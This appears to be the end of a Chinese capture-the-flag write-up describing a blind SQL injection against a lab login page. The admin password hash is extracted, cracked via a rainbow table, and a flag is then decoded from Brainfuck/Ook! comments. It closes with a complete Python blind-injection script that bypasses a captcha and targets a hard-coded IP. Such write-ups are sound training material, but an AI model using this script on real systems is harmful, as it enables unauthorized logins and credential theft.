 注入的过程你可以去喝杯咖啡唱个歌，看看数字逻辑(15周周一就考试了OMG)复习一下，然后经历了一段时间的等待(我写的脚本跑了15分钟左右吧)，我们获得了最终的结果

![](https://bucket.shaoqunliu.cn/image/0251.png)

一共提交640个数据包获取到最终的密码哈希，然后找到一家在线彩虹表网站这么一解密，我们就获得了admin用户的密码，然后使用这个密码就可以愉快地登录了 ![](https://bucket.shaoqunliu.cn/image/0252.png)
 然后我们就看到了内部的系统，继续渗透

 ![](https://bucket.shaoqunliu.cn/image/0253.png)

首先view一下source可以看到这个js，含有字段FLAGB_IN_HERE
 ![](https://bucket.shaoqunliu.cn/image/0254.png)

然后我们打开一看
 ![](https://bucket.shaoqunliu.cn/image/0255.png)

发现注释里面有好多鬼，然后我们把这些鬼复制下来，打开VSC，然后ctrl+/可以一键去除注释(本身注释符就是我ctrl+/一键加上的)，然后把这些东西先解brainfuck然后再解Ook!就可以得到flag了

至此得到Flag B

TL;DR

```python
# 注入脚本
import urllib2

header = {
    'Referer': 'http://www.sdutislab.cn',
    'User-agent': 'SDUT-CTF-Browser',
    'Cookie': 'PHPSESSID=amflps06jgtpbc3kjmn359r424'
}


def getCaptcha(url):
    req = urllib2.Request(url, headers=header)
    res = urllib2.urlopen(req)
    str = res.read()
    length = len(str)
    return str[length - 6: length]


sha1char = '1234567890abcdef'
urlcaptcha = "http://104.128.238.41:8000/pene/system/captcha.php"
urllogin = "http://104.128.238.41:8000/pene/system/login.php"
pwd = ''
num = 0

for length in range(0, 40):
    for i in sha1char:
        payload = '''?usrname=-1'=(select(1)from(login)where(mid((pwd)from(%d))='%s%s'))='&passwd=1&vcode=%s''' % (
            40 - length, i, pwd, getCaptcha(urlcaptcha))
        posturl = urllogin + payload
        req = urllib2.Request(posturl, headers=header)
        html = urllib2.urlopen(req).read()
        num += 1
        if "Password error" in html:
            pwd = i + pwd
            print 40 - length, pwd
        elif "Captcha error" in html:
            print "Captcha error"
print num
```
